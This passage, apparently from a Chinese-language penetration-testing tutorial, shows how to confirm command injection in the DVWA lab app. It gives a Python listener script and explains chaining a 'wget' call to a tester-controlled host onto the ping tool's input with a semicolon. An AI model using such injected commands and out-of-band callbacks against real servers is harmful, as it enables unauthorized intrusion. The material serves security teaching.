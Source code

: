 ```
        #!/usr/bin/python

        import socket

        httprecv = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        httprecv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        httprecv.bind(("0.0.0.0",8000))
        httprecv.listen(2)

        (client, ( ip,sock)) = httprecv.accept()
        print "Received connection from : ", ip
        data = client.recv(4096)
        print str(data)

        client.close()
        httprecv.close()

```

1.  一旦脚本执行完毕，我们需要强制目标服务器与监听服务进行交互，以确认命令注入漏洞。DVWA 应用程序有一个 `ping` 工具，可以用来 ping 提供的 IP 地址。

1.  用户输入会直接传递给系统调用，并且可以被修改以执行底层操作系统中的任意命令。我们可以使用分号将多个命令连接起来，并跟随每个后续命令，如下截图所示：

![](img/00604.jpeg)

1.  在提供的示例中，输入被用来 ping `127.0.0.1` 并执行对 `http://172.16.69.133:8000` 的 `wget` 请求。`wget` 请求对应的是临时监听的 Python 服务。提交输入后，我们可以通过查看脚本的输出，验证命令是否已经执行，如下所示：

![](img/00432.jpeg)

1.  在这里，我们可以看到从目标 Web 服务器接收到了连接，并且用于访问 Web 服务的用户代理是 `wget`。如果 `wget` 未安装，`curl` 命令是另一种可以使用的替代方法。

# 它是如何工作的…

这个 Python 脚本用于确认命令注入漏洞，因为它证明了命令可以通过来自不同系统的注入有效负载从目标服务器执行。几乎不可能在注入有效负载到服务器的同时执行类似的请求。然而，即使有担心有效负载不是检测到的流量的真正来源，也可以通过多次尝试轻松消除误报的疑虑。
